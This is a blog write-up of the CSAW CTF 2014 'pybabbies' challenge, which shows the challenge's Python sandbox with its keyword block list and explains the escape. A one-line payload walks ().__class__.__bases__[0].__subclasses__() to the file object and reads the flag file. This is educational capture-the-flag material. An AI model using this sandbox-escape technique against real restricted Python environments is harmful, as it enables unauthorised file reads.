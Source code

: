```yaml
---
title: CSAW CTF 2014 -- Exploitation 200 pybabbies
layout: single
comments: true
share: true
related: true
author_profile: true
tags:
- CTF
- CSAW
- Pwnable
- Python
categories:
- write-ups
date: '2014-09-25 06:32:00 +0000'
---
```


[CSAW CTF 2014](https://ctf.isis.poly.edu/) is the second CTF contest I've attended ( the first one was the [HITCON CTF 2014](http://ctf2014.hitcon.org/dashboard.html) ) . Since this is the first time **I've actually solved something** in the contest, I decide to post my first own writeup .
<!-- more -->

I've solved 4 challenges in the contest : **Trivia 10 -- We don't know either** , **Exploitation 100 -- bo** , **Exploitation 200 -- pybabbies** and **Expoitation 400 -- saturn**. **We don't know either** & **bo** are easy, so I won't post their writeups. This writeup is for the **Exploitation 200 -- pybabbies**.

The challenge gave us a python script call **pyshell.py**. After we take a good look at it, we'll know that this is a self-made python shell.

```python
#!/usr/bin/env python 

from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()
targets.remove('raw_input')
targets.remove('print')
for x in targets:
    del __builtins__.__dict__[x]

while 1:
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

this python shell allow us to send & execute a python command. But unlike the normal one, this python shell banned some strings such as `import`, `os`, `sys`......etc. Moreover, **it delete almost all the reference to an object**, except `raw_input` & `print`.

To put it short, **we can't call any function except** `raw_input` & `print`, **and we can't use** `import`, `os`, `sys`...., **either**. The goal is to print the flag, so we can either use `os.system("cat flag")` or use `f = open("flag", "r").read()` and print it out. But now since it banned us to use those command, we'll have to find a new way to get the flag.

After doing some research on the internet, I found this [link](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/), which lead us to the right direction. Although in script they delete the reference to an object, we can still use `().__class__.__bases__[0].__subclasses__()` to get the object directly. By using the method mentioned in the blog, I successfully get the `file` object, which give me the ability to open a file and read it.

So here is the exploitation:
1.  First, we use `().__class__.__bases__[0].__subclasses__()[40]` as the `file` object to read the flag into a variable
2.  Simply print out the variable to get the flag
    
we'll have to guess the filename of the flag, which is "key", so the actual progress will be like this:

```
Welcome to my Python sandbox! Enter commands below!
>>> a = ().__class__.__bases__[0].__subclasses__()[40]("./key").read()
>>> print(a)
flag{definitely_not_intro_python}

>>>
```


reference: [Escaping Python Sandboxes](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)